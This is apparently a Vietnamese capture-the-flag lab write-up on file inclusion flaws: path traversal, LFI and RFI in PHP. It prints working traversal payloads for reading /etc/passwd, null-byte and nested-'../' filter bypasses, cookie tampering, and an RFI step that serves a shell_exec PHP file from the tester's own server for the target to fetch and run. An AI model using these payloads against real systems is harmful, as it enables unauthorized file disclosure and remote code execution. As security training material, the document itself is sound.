# **File Inclusion**
## **1. Path Traversal**
Rất nhiêu web hiện nay cho phép tải nội dung động như ảnh đại diện người dùng, một file ngôn ngữ, một báo cáo PDF, ... tất cả những nội dung này được lấy từ yêu cầu của người dùng\
Ví dụ: `http://webapp.thm/get.php?file=userCV.pdf`



Ở đây tham số `file` có giá trị là `userCV.pdf` - là giá trị do người dùng cung cấp và có thể điều khiển



### **Why Do File Inclusion Vulnerabilities Happen?**
File Inclusion xảy ra khi web đưa thẳng input của người dùng vào hàm xử lý đọc file mà không có bất kì kiểm tra nào, vì vậy attacker có thể đọc được nội dung của những file nhạy cảm, không mong muốn

### **What Is the Risk?**
Mức độ ảnh hưởng của lỗ hổng này phụ thuộc vào những gì mà attacker có được khi khai thác; nếu nhẹ hắn có thể chỉ đọc được file thông thường; nhưng nếu hắn có thể đọc được những file config hoặc file chứa thông tin đăng nhập thì có thể sẽ truy câp với nhiều quyền hạn hơn

Attacker có thể upload file, inject code vào những file có sẵn và dùng `LFI` để có thể thực thi những mã đọc đó: có thể là up ảnh nhúng mã độc PHP, ... từ những file đó họ có thể remote cả server nếu có đủ quyền 

Ngoài ra, nếu web cho phép lấy và thực thi những file từ trang web khác thì đó là `RFI`, attacker có thể upfile lên server mà hắn điều khiển rồi từ web nạn nhân gọi sang để thực thi. Đây là kết quả nghiêm trọng nhất của lỗ hổng này

### **Path Traversal**
Nguyên nhân gây ra lỗ hổng này thường là sử dụng những hàm duyệt file như `file_get_contents()` mà không kiểm tra đầu vào của người dùng\
Attacker có thể lợi dụng tham số rồi truyền vào các chức năng xử lý tệp, từ đó có thể duyệt cả hệ thống tệp của server và truy cập vào các tệp nhạy cảm như config, hoặc các tệp chứa thông tin đăng nhập,...

### **How It Works**
Một web lưu trữ thông tin mà người dùng có thể đọc ở thư mục /`var/www/app`, khi người dùng muốn đọc file `/var/www/app/CVs`, request sẽ có dạng

```php
<?php
    $file = $_GET['file'];
    echo file_get_contents('/var/www/app/CVs/' . $file);
?>
```
Ta được biết trong CLI, dấu `../` được hiểu là thư mục cha của file/thư mục hiện tại\
Và nếu attacker nhập vào `../../../../../../etc/passwd`, web sẽ thực hiện duyệt ngược thư mục và lấy nội dung từ filer `/etc/passwd` và trả về cho attacker





## **2. Local File Inclusion (LFI)**

Điểm khác biệt giữa `Path Traversal` và `LFI` là `Path Traversal` sẽ lấy nguyên nội dung của file rồi trả về còn `LFI` là thực thi file đó rồi trả về kết quả của chương trình đã thực hiện

Nhưng hàm như `include`, `require`, `include_once`, và `require_once` trong PHP là nguyên nhân chính gây ra `LFI`\
Trong **ASP**, **JSP**, **Node.js** và những ngôn ngữ khác cũng xuất hiện **LFI** nhưng trong phần này ta chỉ tập trung vào **PHP**

### **Scenario 1: No Directory Specified**
Trường hợp này là không có thư mục được chỉ định

```php
<?PHP
    include($_GET["lang"]);
?>
```

Khi này không có bất kì kiểm tra nào đối với đầu vào của người dùng, khiến nó có thể thực thi những file không mong muốn từ dữ liệu người dùng nhập vào



Trong Lab này, ta thấy web cho phép nhập tên file vào\
Ta thử nhập theo gợi ý là file `welcome.php`\
Kết quả là web trả về kết quả sau khi thực thi file `welcome.php` cho người dùng `welcome to THM`

### **Scenario 2: A Directory Is Specified in the Include**
Trong trường hợp này, ta đã thấy rằng web đã chỉ định một thư mục cụ thể là `languages/`

```php
<?PHP
    include("languages/". $_GET['lang']);
?>
```

Thông thường người dùng sẽ chọn đúng file ngôn ngữ mà web xử lý một cách thông thường

```url
http://webapp.thm/index.php?lang=EN.php
```

Nhưng khi attacker khai thác, họ có thể sử dụng kĩ thuật **Path Traversal** để thực hiện duyệt ngược thư mục và lấy nội dung

```url
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

### **Scenario 3: Black-Box Testing and Appended Extensions**


Khi nhập một tên file bất kì, ta có thể thấy web trả về thông tin lỗi và ta có thể biết được một số thông tin quan trọng: chức năng dùng hàm `include()` để đọc và thực thi file; khi ta nhập tên file, web sẽ tự thêm đuôi file .php vào đằng sau, đó chính là lý do ta chỉ nhập `test.php` mà trong mã lỗi lại là `test.php.php`; ta có thể biết được thư mục đang đứng để có thể áp dụng `Path Traversal` một cách chính xác



Khi ta sử dụng payload `../../../../etc/passwd` vẫn chưa thể đọc được file `/etc/passwd` bởi vì web tự động thêm đuôi `.php` vào cuối nên không thể tìm đến tên file; nhưng mã lỗi này cũng cho ta biết rằng ta đã thành công trong việc sử dụng `../` để có thể di chuyển thư mục\
Ta cũng biết rằng kí tự `%00`(*NULL*) có thể được dùng để bỏ tất cả những chuỗi đằng sau nó, vì vậy ta dùng payload `../../../../etc/passwd%00` để bypass



### **Scenario 4: Keyword Filtering with Path Bypass**
Web có thể thực hiện việc chặn một số file nhất định ví dụ:

```php
if ($lang === "/etc/passwd") {
    die("Access denied");
}
```

Nhưng ta thấy rằng web có thể thực hiện tìm kiếm chính xác, vì vậy ta có thể thêm một số kí tự như `../` và `./` để có thể bypass; thậm chí ta có thể sử dụng lại kí tự `%00` ở task trước để có thể bypass



Ta có thể thấy rằng web đã không cho phép truy cập file\
Ta thực hiện một số cách bypass bên trên








### **Scenario 5: Stripping ../ from Input**
Web có thể thực hiện việc bỏ các kí tự `../`, nếu ta nhập `../../../../etc/passwd`, phía backend sau khi nhận được đầu vào, nó sẽ thực hiện strip hết các kí tự `../`, điều đó khiến hàm `include` không tìm thấy file và trả về lỗi `Warning: include(languages/etc/passwd): failed to open stream: No such file or directory in /var/www/html/THM-5/index.php on line 15`\
Nếu việc filter không chặt chẽ, ta có thể bypass bằng cách lồng các chuỗi `../` vào với nhau để khi web thực hiện việc strip, nó sẽ bỏ chuỗi bên trong, nhưng những chuỗi bên ngoài lại ghép vào thành chuỗi `../`\
Ví dụ: `....//....//....//....//....//etc/passwd`



### **Scenario 6: Forced Directory Prefix**
Web có thể bắt buộc ta phải bắt đầu file với một thư mục cụ thể, ví dụ `languages/EN.php`, nếu không bắt đầu bằng `languages/`, request sẽ bị bỏ qua\
Để bypass thì ta chỉ cần thêm vào đầu thư mục bắt buộc, sau đó lại thêm những kí tự `../` để nó duyệt thư mục như thông thường



## **3. RFI**
RFI nghiêm trọng hơn LFI, bởi vì LFI có thể giới hạn attacker khi file phải được lưu trên máy chủ, nhưng với RFI, nó hoàn toàn được attacker kiểm soát bằng máy chủ hắn điều khiên

### **Requirements for RFI**
RFI phụ thuộc vào option `allow_url_fopen` hoặc `allow_url_include`, nó cho phép hàm `include()` hoặc `require()` chấp nhận đầu vào là URL, không nhất thiết phải là local file

## **4. Practice**
### **Challenge 1**


Khi truy cập, ta thấy web có cảnh báo là `The input form is broken! You need to send 'POST' request with 'file' parameter!`\
Nhưn ta thử method `GET` để xem phản ứng của web\
Ta nhập thẳng câu vào ô input



Quả thật, khi ta gửi request bằng GET, ta thấy web không trả về gì\
Ta sẽ chuyển method sang `POST` ở **Burp Suite**



Kết quả là ta nhận được nội dung của file `/etc/passwd`

### **Challenge 2**


Khi truy cập, web yêu cầu ta reload lại một lần



Sau khi reload, web thông báo rằng chỉ có người dùng admin mới có thể truy cập



Khi quan sát bằng Burp, cookie có giá trị là `Guest`, vậy nên ta thay bằng giá trị `admin`



Kết quả là đã truy cập được nhưn flag thì chưa có\
Ta để ý có dòng là `File Content Preview of Admin`, tức là `Admin` cũng chỉ là một file trên server\
Vậy nên giá trị của cookie `THM` có thể là đường dẫn của 1 file



Ta thực hiện thay cookie bằng `../etc/passwd`, web đã trả về `Welcome ../etc/passwd`, nhưng vẫn không trả về nội dung\
Quan sát lỗi ta thấy được rằng web đã tự động thêm đuôi file `.php`, khiến tên file bị thay đổi và không thể tìm thấy file trong hệ thống\
Ta dùng kí tự `%00` để bỏ qua những kí tự sau nó\
Ta có thể thấy rằng `Current Path` đang là `/var/www/html` nên ta cần điều chỉnh payload cho hợp lý

```bash
../../../etc/passwd%00
```



Kết quả là đã đọc được file `/etc/passed`

### **Challenge 3**


Ở challenge này, khi ta gửi payload thông thường `../etc/passwd`, có thể thấy rằng web đã filter tất cả các kí tự không phải chữ cái\
Để xác nhận, ta thực hiện dùng `..../....//....//....//....//etc/passwd`



Kết quả vẫn tương tự, có thể web đã filter kí tự `../`, ta thực hiện encode thành `%2e%2e%2f` (*URL*)

```bash
%2e%2e%2fetc%2fpasswd
```



Kết quả web đã lọc hết những kí tự không phải chữ cái, encode không có tác dụng\
Quan sát bằng **Burp Suite**, ta thấy được request được gửi bằng `GET`, ta thử đổi sang `POST` và quan sát phản hồi



Ta thấy rằng web đã không thực hiện filter khi ta thực hiện gửi request bằng phương thức `POST`\
Tiếp theo ta thêm kí tự `%00` để loại bỏ đuôi file `.php`

```bash
../../../etc/passwd%00
```



Kết quả là ta nhận được nội dung của file `/etc/passwd`

### **Playground**




Lab này cho phép ta gọi ra bên ngoài bằng cách điền URL vào, nó sẽ lấy file, thực thi rồi trả về kết quả cho người dùng



Tiếp theo ta tạo 1 file với nội dung trên server mà ta kiểm soát
 
```php
<?php
$output = shell_exec('hostname');
echo "<pre>" . htmlspecialchars($output) . "</pre>";
?>
```

Tiếp theo là mở port `80` cho phép web gọi đến và lấy file

```bash
python -m http.server 80
```

Cuối cùng, ta thực hiện điền URL vào form `http://IP/test.php`



Ta thấy được web đã thực thi câu lệnh `hostname` từ file `test.php` rồi trả về kết quả 


